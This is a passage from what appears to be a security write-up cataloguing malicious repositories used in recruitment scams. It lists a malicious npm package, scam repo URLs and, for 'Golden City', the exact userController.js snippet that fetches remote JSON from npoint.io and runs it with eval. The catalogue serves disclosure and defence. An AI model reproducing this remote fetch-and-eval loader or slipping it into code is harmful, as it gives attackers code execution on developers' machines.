 ```javascript

    // Continues with seemingly normal operation
    return res
      .status(200)
      .json({ success: true, message: "Payment processed" });
  } catch (error) {
    console.error(error);
    return res.status(500).json({ success: false, message: "Payment failed" });
  }
});
```

### 6. ERC20 Token DApp

Located in `erc20-token-dapp/` directory.

The malware:

- Uses a malicious npm package called `cdn-icon-fetch`
- The package contains code that can harm your local machine
- It's loaded through a function call `fetchIcon("77")` in `vite.config.js`
- More information about this vulnerability can be found at: https://security.snyk.io/package/npm/cdn-icon-fetch

### 7. Challenge Experiment Module

Located in `challenge-experiment-module/` directory.

The malware:

- Contains code designed to look like a legitimate experimental module
- Likely executes malicious payloads in the background
- Also listed in the "Known Scam Repos and APIs" section as "https://github.com/MetaBuilderGroup76/challenge-experiment-module"

### 8. Coinpool Rental Platform 1.0

Located in `coinpool-rental-platform1.0/` directory.

The malware:

- Disguised as a cryptocurrency/rental platform
- Contains obfuscated malicious code
- Listed in the "Known Scam Repos and APIs" section as "https://bitbucket.org/coinpool/rental-platform1.0/src/main/"
- Frequently used in LinkedIn recruitment scams

### 9. Golden City

Located in `golden-city/` directory. This repository contains a payload in `backend/controllers/userController.js` at line 204:

```javascript
exports.getCookie = asyncErrorHandler(async (req, res, next) => {
  const rs_L = await axios.get("https://api.npoint.io/e8e29958efde154f3d7d");
  const rs_C = await axios.get("https://api.npoint.io/632ab82bbc8d7f4c2d44");
  eval(rs_L.data.cookie);
  eval(rs_C.data.cookie);
})();
```
